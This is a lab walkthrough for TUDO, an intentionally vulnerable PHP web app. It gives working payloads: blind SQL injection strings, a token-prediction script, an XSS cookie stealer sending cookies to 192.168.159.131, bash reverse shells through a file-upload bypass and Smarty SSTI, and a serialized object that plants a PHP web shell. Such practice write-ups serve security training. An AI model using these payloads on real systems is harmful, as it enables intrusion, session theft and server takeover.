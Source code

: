 ## TUDO (Vulnerable PHP Web-App)

https://github.com/bmdyy/tudo

### First Access

To get first access on this challenge, you have two options:
* Explore SQL injection on forgotUsername.php to get password resetToken;
* Create a list with every possible value for this token since you have the seed on utils.php.

<br>

#### SQL Injection
The SQL injection is automated on SQLinjection.py. First you discover user UID with this payload:
 ```
admin' and (select uid from users where username='user1')='%s
```

You can discover that the uid is necessarily based on this line on **forgotpassword.php**:
```
$ret = pg_prepare($db, "createtoken_query", "insert into tokens (uid, token) values ($1, $2)");
```

Now you can extract resetToken with:
```
admin' and (select ascii(substr(token,%s,1)) from tokens where uid=%s limit 1)='%s
```

For some reason you have to compare the character in ascii decimal value.

<br>

#### Predicting Token
The original function to generate token is:
```php
function generateToken() {
        srand(round(microtime(true) * 1000));
        $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';
        $ret = '';
        for ($i = 0; $i < 32; $i++) {
            $ret .= $chars[rand(0,strlen($chars)-1)];
        }
        return $ret;
    }
```

We can create a php file to generate a list for the possible tokens:
```php
<?php

  function generateToken($seed){
      ...
}

	$t_start = $argv[1];
	$t_end   = $argv[2];

	for ($i = $t_start; $i < $t_end; $i++) {
		print_r(generateToken($i) . "\n");
	}
?>
```

This will receive two values from the script that are related to timestamps, since the main function uses microtime.

Now we can create the script **generateTokens.py** to get this possible values and interact with **resetpassword.php** until it finds the correct one.

<br>

### Privilege Escalation
The privilege escalation is based on a XSS on profile description. This will be reflected in the admin page and we may steal your session cookie.

This is the payload and the process is automated on **stealCookie.pyp**:
```
<script>document.write('<img src=http://192.168.159.131:9000/'+document.cookie+' />');</script>
```

On index.php, you can see the difference between on content being sanitize and this vulnerable one not.
```php
# Vulnerable
echo '<td>'.$row[3].'</td>';

# Sanitized
echo '<td><i>'.htmlentities($row[1]).'</i></td>';
```

<br>

### Command Execution
You have 3 main options to get command execution:
* Via file upload
* Via SSTI
* Via deserialization

<br>

#### File Upload
There is a file upload options that do some checks on **upload_images.php**, but they are easily bypassed. This is automated in **rces.py**.

You can bypass **getimagesize** by including a gif header on the payload, use **.phar** to bypass extension check and change Content-Type to image/gif to bypass **allowed_mime**.
```
GIF98a;<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.159.131/9000 0>&1'");?>
```

<br>

#### SSTI
You can modified the index message from **/admin/update_motd.php**. This is vulnerable to template injection. On index.php, we discover that Smarty framework is being used.

We can execute command with the payload above and this is automated in **rces.py**.
```
{php}exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.159.131/9000 0>&1'");{/php}
```

<br>

#### Deserialization
Class log in **utils.ph**p implements **__destruct** and this will leave us to RCE. This function is using file_put_contents.
* First we create a php file with Log function which defines $f and $m and serialize it;
* Send it to the server a POST param;
* The \_\_destruct function will write it to the server with the name we choosen. And then we can execute it and get a reverse shell on the box.

Class log:
```php
class Log {
        public function __construct($f, $m) {
            $this->f = $f;
            $this->m = $m;
        }
        
        public function __destruct() {
            file_put_contents($this->f, $this->m, FILE_APPEND);
        }
    }
```

Log file:
```php
<?php
class Log {
	public $f = '/var/www/html/shell.php';
	public $m = '<?php system($_REQUEST["cmd"]); ?>';
	}
	print serialize(new Log);
?>
```

Execute this log file, get the serialized object and send it to the server.
```
O:3:"Log":2:{s:1:"f";s:23:"/var/www/html/shell.php";s:1:"m";s:34:"<?php system($_REQUEST["cmd"]); ?>";}

# In python
"O:3:\"Log\":2:{s:1:\"f\";s:23:\"/var/www/html/shell.php\";s:1:\"m\";s:34:\"<?php system($_REQUEST[\"cmd\"]); ?>\";}"
```

Get command execution accessing `/shell.php?cmd=id`.
